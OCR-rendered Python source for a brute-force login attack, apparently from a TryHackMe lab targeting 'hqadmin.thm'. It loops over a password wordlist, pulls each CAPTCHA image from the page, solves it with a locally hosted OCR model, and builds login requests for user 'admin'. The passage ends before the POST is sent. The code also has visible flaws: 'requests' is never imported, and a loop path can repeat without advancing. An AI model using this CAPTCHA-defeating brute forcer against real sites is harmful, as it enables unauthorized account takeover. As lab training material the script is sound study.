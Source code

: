 import base64
import json
from bs4 import BeautifulSoup

username = "admin"
passwords = []

#URLs for our requests
website_url = "http://hqadmin.thm:8000"
model_url = "http://localhost:8501/v1/models/ocr:predict"

#Load in the passwords for brute forcing
with open("passwords.txt", "r") as wordlist:
    lines = wordlist.readlines()
    for line in lines:
        passwords.append(line.replace("\n",""))


access_granted = False
count = 0

#Run the brute force attack until we are out of passwords or have gained access
while(access_granted == False and count < len(passwords)):
    #This will run a brute force for each password
    password = passwords[count]

    #First, we connect to the webapp so we can get the CAPTCHA. We will use a session so cookies are taken care of for us
    sess = requests.session()
    r = sess.get(website_url)
    
    #Use soup to parse the HTML and extract the CAPTCHA image
    soup = BeautifulSoup(r.content, 'html.parser')
    img = soup.find("img")    
    encoded_image = img['src'].split(" ")[1]
    
    #Build the JSON request to send to the CAPTCHA predictor
    model_data = {
        'signature_name' : 'serving_default',
        'inputs' : {'input' : {'b64' : encoded_image} }
        }
        
    #Send the CAPTCHA prediction request and load the response
    r = requests.post(model_url, json=model_data)
    prediction = r.json()
    probability = prediction["outputs"]["probability"]
    answer = prediction["outputs"]["output"]

    #We can increase our guessing accuracy by only submitting the answer if we are more than 90% sure
    if (probability < 0.90):
        #If lower than 90%, no submission of CAPTCHA
        print ("[-] Prediction probability too low, not submitting CAPTCHA")
        continue

    #Otherwise, we are good to go with our brute forcer
    #Build the POST data for our brute force attempt
    website_data = {
            'username' : username,
            'password' : password,
            'captcha' : answer,
            'submit' : "Submit+Query"
            }
